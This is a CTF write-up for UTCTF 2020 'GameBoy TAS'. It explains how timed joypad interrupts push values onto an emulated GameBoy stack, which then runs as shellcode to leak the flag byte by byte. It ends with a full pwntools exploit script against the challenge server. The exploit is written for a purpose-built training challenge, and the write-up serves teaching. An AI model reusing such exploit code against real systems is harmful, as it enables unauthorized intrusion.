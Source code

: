 #+title: UTCTF 2020 - GameBoy TAS (pwn/reversing)
#+author: Daniel Brodsky
#+date: 2020-03-10
#+hugo_base_dir: ../../
#+hugo_section: writeups
#+startup: inlineimages
#+startup: inlineimages
#+hugo_menu: :menu "foo" :weight 10 :parent main :identifier single-toml
#+description: 16-bit gaming

** Problem
~Here's a GameBoy ROM, can you dump the flag at the beginning of memory?~
** Analysis
The [[/w4_program.gb][program]] is hosted on a remote server where we can only interface with it
through a GameBoy emulator (both are provided for local exploitation). The only
inputs you can give to the emulator is a joypad input and a duration of clock
cycles to run after pressing the button. This is a modified version of the
emulator located [[https://github.com/429ers/OOPBoy][here]], where the main method for GameBoy.java has been changed
to:
#+BEGIN_SRC JAVA
    public void main() throws Exception {
        Scanner fin = new Scanner(System.in);
        File file = new File("./utctf.gb");
        new FileInputStream(file).read(this.mmu.mem);
        this.cpu.regs.AF.write(432);
        this.cpu.regs.BC.write(19);
        this.cpu.regs.DE.write(216);
        this.cpu.regs.HL.write(333);
        this.cpu.regs.SP.write(65534);
        this.cpu.regs.PC.write(256);
        int currentKey = 48;
        System.out.println("Welcome to the UTCTF Game Boy TAS! ");
        for (int i = 0; i < 12; ++i) {
            int nextKey;
            System.out.print("Please enter your next command: ");
            String key = fin.next();
            int duration = fin.nextInt();
            if (duration > 40000) {
                System.out.println("Duration cannot exceed 40000");
                System.exit(0);
            }
            if ((nextKey = this.getKeyEvent(key.charAt(0))) != currentKey) {
                this.joypad.keyReleased(currentKey);
                this.joypad.keyPressed(nextKey);
                currentKey = nextKey;
            }
            this.time = 0L;
            while (this.time < (long)duration) {
                this.cpu.executeOneInstruction(false, false);
            }
        }
        System.out.println("You ran out of commands");
    }

    public static void main(String[] args) throws Exception {
        instance.main();
    }
}
#+END_SRC
This was obtained by decompiling the provided ~.jar~ file using CFR.

From here we can see that we are able to give up to 12 joypad inputs and the max
duration to run after these inputs is 40000 clock cycles.

Looking at the ROM file provided, the program is 32KB in size, but using ~xxd~
we see that there isn't actually all that much going on:
#+BEGIN_SRC shell
~: xxd utctf.gb
 00000010: 181e 7574 666c 6167 7b52 4544 4143 5445  ..utflag{REDACTE
 00000020: 445f 5245 4441 4354 4544 5f2e 2e2e 2e7d  D_REDACTED_....}
 00000030: 3ec3 e0fc 3e50 e0fd 3e01 e0fe 3cc3 0001  >...>P..>...<...
 00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 00000060: 0cfb c300 0100 0000 0000 0000 0000 0000  ................
 00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000d0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 000000f0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 00000100: 00c3 5001 ceed 6666 cc0d 000b 0373 0083  ..P...ff.....s..
 00000110: 000c 000d 0008 111f 8889 000e dccc 6ee6  ..............n.
 00000120: dddd d999 bbbb 6763 6e0e eccc dddc 999f  ......gcn.......
 00000130: bbb9 333e 5554 4354 4652 4f4d 0000 0000  ..3>UTCTFROM....
 00000140: 0000 0000 0000 0000 0000 0001 010a 16bf  ................
 00000150: fe01 2001 c700 0000 0000 0000 0000 0000  .. .............
 00000160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
 ... (\x00 here)
 00001ff0: 0000 0000 0000 0000 0000 0000 00c3 80ff  ................
 ... (\x00 here)
 00007ff0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
#+END_SRC

Most of the file consists of ~\x00~, which is the opcode for ~NOP~ in Sharp
LR35902 processor (the processor used in GameBoys).

Fun fact: The processor used in GameBoys is heavily based off the [[https://en.wikipedia.org/wiki/Zilog_Z80][Z80 processor]],
which is one of the most popular processors of all time.

In order to understand what this ROM is doing, we need a disassembler that can
convert the opcode instruction to its corresponding assembly. I was hoping to do
this myself using Ghidra and its processor specification language [[https://ghidra.re/courses/languages/html/sleigh.html][SLEIGH]], but
someone had already beat me to it (their extension [[https://github.com/Gekkio/GhidraBoy][here]]). Darn! :(

Dropping the ROM file into Ghidra with the GhidraBoy extension loaded, we get
the following disassembled code:

[[/w4_entry.png]]

This will either run the init routine or begin executing a nopslide that goes
all the way to the end of memory.

The init routine is fairly simple:

[[/w4_init.png]]

It just sets all registers to 0, sets the stack pointer SP, enables interrupts
with the EI instruction, and increments register A so that we don't run the
routine again.

There's also an entry for joypad interrupts:

[[/w4_joypad.png]]

which will run each time a joypad interrupt is triggered by the emulator.

** Vulnerability
The core "vulnerability" in this problem lies in the architecture for the Sharp
SM83. When an interrupt is triggered, the current instruction pointer will be
pushed onto the stack.

#+BEGIN_SRC JAVA
// Run on each interrupt received
  void serviceInterrupts() {
    if (this.interrupted) {
      this.interrupted = false;
      this.halted = false;
      int interruptVector = this.pendingInterrupt;
      if (interruptVector != -1) {
        this.clockCycleDelta += 12;
        this.PUSH(this.regs.PC); // Push current program counter to the stack
        this.regs.PC.write(interruptVector); // move execution to interrupt address
        this.interruptHandler.setInterruptsEnabled(false);
      }
    }
  }
#+END_SRC

Sharp SM83 has no stack execution protection, so if the program executes the end
of memory where the stack is located (base is at 0xFFFC) then we can run the PC
values we pushed onto the stack as shellcode.

There's only one problem with this approach: we're limited to 40000 clock cycles
per input, and most instructions take at least 4 clock cycles. That means at
most we can reach ~10000 = 0x2710~. There's 2 ways to bypass this limit:
- run the same joypad input again, which does not trigger an interrupt and will
  continue from the last executed address
- do nothing and let the instruction at 0x1ffd skip us to the stack:
#+BEGIN_SRC text
1ffd  c3   80  ff      JP LAB_ff80
#+END_SRC

The stack base is at 0xFFFC so this jump is very close.
Nice how the problem creator dumped that one in. :)

** Exploit
In order to dump out the flag we need two things:
- a computation for converting the value we want in our shellcode to the number of clock
  cycles needed to reach that address
- shellcode for leaking the flag in memory

Each joypad input has a base number of clock cycles for the interrupt routine,
followed by 4 clock cycles for each NOP we want to execute. The first input also
has to execute the init routine and has an additional base, but we'll sacrifice
1 of our writes to not have to bother with this. We can get the base
clock cycles required by doing ~BASE_CYCLES = step(4*target_address) - actual_address~
for any target address, which results in a value of 322. So our final function
will be:
#+BEGIN_SRC Python
cycles = (target_addr - 322) * 4
#+END_SRC

Now we need to write our shellcode. Note that since the init routine takes up
space in the beginning of memory, we cannot write 2-byte values from 0x0-0x150.
Also, because of the JP instruction at 0x1ffd, we cannot use 2-byte values from
0x1ffd-0xffff. After playing around with different SM83 instructions, I came up
with the following shellcode:
#+BEGIN_SRC Python

NOP             LD C, d8        # NOP for padding on this line
FLAG_START      INC D           # Load flag start address into register C (INC D is padding)
LD A, (BC)      INC D           # use combined register BC as 16-bit address and load value into A
LDH (a8), A     UART            # Load value in A into 0xff00 + UART (0xff01 is UART address)
#+END_SRC

Note that writing values to UART (universal asynchronous receiver/transmitter)
will print the value written to the screen. You can see this in the emulator's
implementation for memory read/write.

The shellcode above only prints 1 byte at a time, but we can just
run our exploit until we have the entire flag. Putting everything above
together, this is the final exploit code:

#+BEGIN_SRC Python
from pwn import *
import re

ROUTINE_OFFSET = 322
UART = 0x01
LDH_a8_A = 0xE0
NOP = 0x00
FLAG_START = 0x12
LD_C_d8 = 0x0E
LD_A_aBC = 0x0A
INC_D = 0x13

# nops cost 4 cycles
NOP_COST = 4


char = "a"
# 16-bit architecture so we write 2 bytes to the stack each time
def write_short(byte1, byte2):
    global char
    short = int(str(hex(byte1)[2:]) + str(hex(byte2)[2:].rjust(2, "0")), 16)
    cycles = (short - ROUTINE_OFFSET - 2) * NOP_COST
    r.recvuntil("Please enter your next command: ")
    r.sendline(char + " " + str(cycles))
    char = chr(ord(char) ^ ord("b") ^ ord("a")) # toggle joypad inputs to trigger new interrupts


out = ""
def run_shellcode():
    global out
    global char
    r.clean(0)
    r.sendline(char + " 32000") # 32000 cycles is enough to execute the entire stack
    res = r.clean(1).decode("ISO-8859-1")
    print(res)
    out += re.search("d: (.)P", res).groups()[0]


for _ in range(30):
    r = process(["/usr/bin/java", "com.garrettgu.oopboystripped.GameBoy"])
    # r = remote("3.91.17.218", 9002)

    # shellcode is written in reverse order since stack grows upwards (to smaller addresses)
    # but code is executed downwards (to larger addresses)
    payload = [
        UART, LDH_a8_A,
        INC_D, LD_A_aBC,
        INC_D, FLAG_START,
        LD_C_d8, NOP,
    ]
    r.sendline("a 256") # write some trash to get init routine offset out of the way
    r.sendline("b 256")

    for s in range(0, len(payload), 2):
        write_short(payload[s], payload[s + 1])

    run_shellcode()
    FLAG_START += 1 # get the next flag character
    char = "a"
    r.close()
#+END_SRC

Running this against the server we get the following flag:
~utflag{dmg_cool_ciAkDGw5cf}~

** Opinion
Very fun question! It didn't take a ton of effort to solve, and gave me the
opportunity to mess with an architecture outside of the standard ones used in
CTFs (x86_64, ARM, MIPS, etc). The restrictions on usable opcodes seemed like an
unnecessary way to make the problem harder than it needed to be, but overall it
was still satisfying.

** References
- opcode table from https://www.pastraiser.com
- The emulator in the problem https://github.com/429ers/OOPBoy, which was
  written by the problem creators
- Wikipedia page for the Z80 processor https://en.wikipedia.org/wiki/Zilog_Z80#Z80_assembly_language
